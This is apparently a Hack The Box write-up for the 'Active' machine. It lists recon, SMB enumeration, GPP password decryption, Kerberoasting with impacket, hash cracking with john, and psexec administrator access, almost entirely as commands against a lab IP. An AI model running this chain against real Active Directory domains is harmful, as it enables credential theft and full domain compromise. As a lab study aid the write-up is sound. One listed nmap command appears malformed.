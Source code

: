 # Active Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA active -Pn 10.10.10.100``
### or
``nmap -p- -sV -oA fullactive 10.10.10.100``
### and 
``nmap --script safe -p 445 10.10.10.100``

* The right way here was the right enumeration of the port 445 **:white_check_mark:**

### DNS recon
``gobuster dns -d active.htb -t 25 -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt``

``dnsrecon -d 10.10.10.100 -r 10.0.0.0/8``

``nslookup ``

``server 10.10.10.100``

``127.0.0.1``

### SMB recon
``smbmap -H 10.10.10.100``

``enum4linux -a -u "" -p "" 10.10.10.100 ``

``enum4linux -a -u "guest" -p "" 10.10.10.100``

``smbclient -U '%' -L //10.10.10.100``

``smbclient -U 'guest%' -L //10.10.10.100``

### SMB to not miss anything in the share

``smbmap -R Replication -H 10.10.10.100``

``smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q``

### or 

``smbclient //10.10.10.100/Replication``

``RECURSE ON``

``PROMPT OFF``

``mget *``

# ${{\color{purple}Initial Foothold}}\ $

### I found a password in the Groups.xml file but what to do afterwards on a box where the port 3389 is not open ?

Decode password :

`python3 gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

![image](https://user-images.githubusercontent.com/123066149/217777696-9092c454-7c24-4105-b10a-2a65fc5e4ef1.png)


# ${{\color{purple}Exploitation}}\ $

 ### 1) Find the users of the box 
``/usr/bin/impacket-GetADUsers -all -dc-ip 10.10.10.100 active.htb/svc_tgs``


![image](https://user-images.githubusercontent.com/123066149/217771016-d0786329-3bb6-4532-bb18-921fc95d9590.png)

### 2) List the user's rights on the shares  
Before 
![image](https://user-images.githubusercontent.com/123066149/217771660-8735c7cd-af60-48b9-982c-64d1fcedb241.png)
After
![image](https://user-images.githubusercontent.com/123066149/217771490-866b2fb7-5e4f-41b8-874a-e279cf7386ab.png)

### 3) Try a connection ( need Windows )

`runas /netonly /user:active.htb\svc_tgs cmd`

and list the shares :

`dir \\10.10.10.100\Users`

### 4) Try to get UserSPNs :

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

# ${{\color{purple}Privilege Escalation}}\ $

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

![image](https://user-images.githubusercontent.com/123066149/217774864-66183e11-96a7-4a42-819e-62e3e25316d9.png)

`john --wordlist=/usr/share/wordlists/rockyou.txt -format=krb5tgs ./krb5tgs.txt`

![image](https://user-images.githubusercontent.com/123066149/217775198-6f5eb564-77e6-4d6f-b49b-d23072f98973.png)

`/usr/bin/impacket-psexec active.htb/Administrator@10.10.10.100`

![image](https://user-images.githubusercontent.com/123066149/217775392-8a49d703-f564-4ac3-a139-34f4fccc0c69.png)

# ${{\color{purple}Points of Improvement}}\ $

* Add the domain ``active.htb`` directly from the ``host`` file.
* Before doing a ``locate`` command, use the ``updatedb`` command to update the database.
* Make an nmap script to know the version of smb ``nmap --script safe -445 10.10.10.100``
* Remember to change the ``/``in the command : ``/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
Otherwise the command does not work     
